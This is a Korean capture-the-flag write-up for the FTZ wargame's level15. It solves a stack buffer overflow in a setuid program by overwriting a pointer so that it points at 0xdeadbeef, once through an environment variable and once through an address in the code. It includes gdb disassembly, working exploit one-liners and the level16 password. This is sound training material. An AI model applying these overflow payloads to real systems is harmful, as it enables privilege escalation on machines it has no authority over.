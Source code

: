 ```yaml
---
title: "[FTZ] level15 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "level15 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ level15 풀이
{: .notice--warning}


# 문제

계정 : level15/guess what

**hint**
```c
#include <stdio.h>

main()
{ int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
}

```

# 풀이
이번 문제는 2가지의 방법으로 풀어보겠습니다.

## 환경변수
계속 이용하던 환경 변수를 이용하여 문제를 해결할 수 있습니다.

하지만 이전 문제들과 다르게 주의를 해야 하는 부분이 존재합니다.

이번 문제는 ret 주소를 덮어 쓰는게 아닌, check 변수를 덮어써서 check 변수의 포인터가 가리키고 있는 위치에 0xdeadbeef 값이 있으면 쉘을 얻을 수 있습니다.

다른 쉘을 따는 문제들에서는 환경변수의 위치가 몇 바이트 다르게 나와도 nop(0x90) 문자를 이용하여 보완해 줬다면, 이번 문제에서는 1바이트라도 다르면 segmentation falut 오류가 발생합니다.

우선 '정확하게' 환경변수의 위치를 맞추기 위해서 알아야 하는 사항은 환경변수가 스택에 불러진다는 사실과, 이 변수들은 실행 프로그램 이름에 길이에 영향을 받는다는 것입니다.

다음의 코드를 보면 같은 환경변수 주소를 구하는 코드지만 이름이 1글자 차이에  위치가 2 byte 차이가 나는 것을 볼 수 있습니다.

```sh
[level15@ftz tmp]$ echo 'int main(){printf("%p\n",getenv("CHECK"));}'>> env.c
[level15@ftz tmp]$ gcc -o env12345 env.c
[level15@ftz tmp]$ gcc -o env1234 env.c
[level15@ftz tmp]$ gcc -o env123 env.c
[level15@ftz tmp]$ ./env123
0xbffffcc3
[level15@ftz tmp]$ ./env1234
0xbffffcc1
[level15@ftz tmp]$ ./env12345
0xbffffcbf
```

따라서 이번에는 환경변수를 정확하게 얻기 위해서 attackme 프로그램의 이름 길이가 8자리 이므로 env12345 프로그램으로 구한 **0xbffffcbf**주소를 사용합니다.

gdb를 이용하여 buf 위치와 check 변수의 위치가 얼만큼 차이나는지 확인 합니다.

```sh
[level15@ftz level15]$ gdb -q attackme
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048490 <main+0>:    push   ebp
0x08048491 <main+1>:    mov    ebp,esp
0x08048493 <main+3>:    sub    esp,0x38
0x08048496 <main+6>:    sub    esp,0x4
0x08048499 <main+9>:    push   ds:0x8049664
0x0804849f <main+15>:   push   0x2d
0x080484a1 <main+17>:   lea    eax,[ebp-56]       //buf 위치
0x080484a4 <main+20>:   push   eax
0x080484a5 <main+21>:   call   0x8048360 <fgets>
0x080484aa <main+26>:   add    esp,0x10
0x080484ad <main+29>:   mov    eax,DWORD PTR [ebp-16]   //check 위치
0x080484b0 <main+32>:   cmp    DWORD PTR [eax],0xdeadbeef
0x080484b6 <main+38>:   jne    0x80484dd <main+77>
0x080484b8 <main+40>:   sub    esp,0x8
0x080484bb <main+43>:   push   0xc18
0x080484c0 <main+48>:   push   0xc18
0x080484c5 <main+53>:   call   0x8048380 <setreuid>
0x080484ca <main+58>:   add    esp,0x10
0x080484cd <main+61>:   sub    esp,0xc
0x080484d0 <main+64>:   push   0x8048548
0x080484d5 <main+69>:   call   0x8048340 <system>
0x080484da <main+74>:   add    esp,0x10
0x080484dd <main+77>:   leave
0x080484de <main+78>:   ret
0x080484df <main+79>:   nop
End of assembler dump.

```

총 40바이트의 위치가 차이 납니다.

따라서 dummy 문자로 40바이트를 체운 뒤, 환경 변수 주소를 입력해 줍니다.
성공적으로 쉘을 획득했습니다.

```sh
[level15@ftz level15]$ (python -c'print("A"*40+"\xbf\xfc\xff\xbf")';cat)|./attackme

id
uid=3096(level16) gid=3095(level15) groups=3095(level15)

my-pass
Level16 Password is "about to cause mass".
```

## 스택에서 찾기

check의 포인터의 값과 **0xdeadbeef** 값을 비교를 하기 위해서 분명히 메모리 상에 **0xdeadbeef** 값을 저장한 위치가 있을 것입니다.

이번에는 그 값을 찾아서 해결해 보겠습니다.

먼저 디버깅을 위해서 attackme 파일을 tmp폴더로 복사한 뒤에 gdb를 실행시켜 줍니다.

```sh
[level15@ftz tmp]$ gdb -q attackme
(gdb) set disas intel
(gdb) disass main
Dump of assembler code for function main:
0x08048490 <main+0>:    push   ebp
0x08048491 <main+1>:    mov    ebp,esp
0x08048493 <main+3>:    sub    esp,0x38
0x08048496 <main+6>:    sub    esp,0x4
0x08048499 <main+9>:    push   ds:0x8049664
0x0804849f <main+15>:   push   0x2d
0x080484a1 <main+17>:   lea    eax,[ebp-56]
0x080484a4 <main+20>:   push   eax
0x080484a5 <main+21>:   call   0x8048360 <fgets>
0x080484aa <main+26>:   add    esp,0x10
0x080484ad <main+29>:   mov    eax,DWORD PTR [ebp-16]
0x080484b0 <main+32>:   cmp    DWORD PTR [eax],0xdeadbeef //브레이크 지점
0x080484b6 <main+38>:   jne    0x80484dd <main+77>
0x080484b8 <main+40>:   sub    esp,0x8
0x080484bb <main+43>:   push   0xc18
0x080484c0 <main+48>:   push   0xc18
0x080484c5 <main+53>:   call   0x8048380 <setreuid>
0x080484ca <main+58>:   add    esp,0x10
0x080484cd <main+61>:   sub    esp,0xc
0x080484d0 <main+64>:   push   0x8048548
0x080484d5 <main+69>:   call   0x8048340 <system>
0x080484da <main+74>:   add    esp,0x10
0x080484dd <main+77>:   leave
0x080484de <main+78>:   ret
0x080484df <main+79>:   nop
End of assembler dump.

```

포인터 값과 0xdeadbeef 값을 비고ㅛ하는 지점인 main+32주소에 브레이크를 걸고 실행합니다.

```sh
(gdb) b *main+32
Breakpoint 1 at 0x80484b0
(gdb) run
Starting program: /home/level15/tmp/attackme
test

Breakpoint 1, 0x080484b0 in main ()
(gdb) info reg
eax            0xbffff138       -1073745608
ecx            0x5      5
edx            0x4212e130       1108533552
ebx            0x42130a14       1108544020
esp            0xbffff100       0xbffff100
ebp            0xbffff138       0xbffff138
esi            0x40015360       1073828704
edi            0x8048520        134513952
eip            0x80484b0        0x80484b0
eflags         0x286    646
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x33     51
```

eip 지점에 대해서 16개의 word를 출력해 봅니다.

```sh
(gdb) x/16xw $eip
0x80484b0 <main+32>:    0xbeef3881      0x2575dead      0x6808ec83      0x00000c18
0x80484c0 <main+48>:    0x000c1868      0xfeb6e800      0xc483ffff      0x0cec8310
0x80484d0 <main+64>:    0x04854868      0xfe66e808      0xc483ffff      0x90c3c910
0x80484e0 <__do_global_ctors_aux>:      0x53e58955      0xa104ec83      0x0804962c      0x04962cbb
(gdb)
```

맨 처음 2개의 word를 보면 beef와 dead가 나누어서 저장되어 있는게 보입니다.
현재 주소가 0xb0으로 끝나므로 2바이트를 밀어서 출력해 봅니다.

```sh
(gdb) x/2xw 0x80484b2
0x80484b2 <main+34>:    0xdeadbeef      0xec832575
(gdb)
```

0xdeadbeef가 저장된 메모리 주소는 0x80484b2입니다.

이를 이용해서 check 값을 해당 메모리 주소로 덮어주면 쉘을 획득할 수 있습니다.

```sh
[level15@ftz level15]$ (python -c 'print("A"*40+"\xb2\x84\x04\x08")';cat) | ./attackme
id
uid=3096(level16) gid=3095(level15) groups=3095(level15)
```
